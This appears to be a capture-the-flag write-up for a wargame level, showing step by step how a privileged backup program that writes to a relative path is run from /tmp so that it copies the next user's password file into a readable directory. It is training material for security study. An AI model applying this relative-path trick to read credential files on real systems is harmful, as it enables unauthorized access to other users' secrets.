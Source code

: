 # Level08

    $ ./level08 
    Usage: ./level08 filename
    ERROR: Failed to open (null)

The program take a file in argument

    $ ./level08 ~level09/.pass
    ERROR: Failed to open ./backups//home/users/level09/.pass

Nice try...

We can see the program try to open a file `./backups//home/users/level09/.pass`. It's a relative path

Try to create this path

    $ mkdir -p ./backups//home/users/level09
    mkdir: cannot create directory `./backups//home': Permission denied

We can't on the home. Because of the relative path, try it in `/tmp`

    $ cd /tmp

    $ mkdir -p ./backups//home/users/level09/

Try to call the program from `/tmp`

    $ ~/level08 ~level09/.pass

    $ cat backups/home/users/level09/.pass

EZ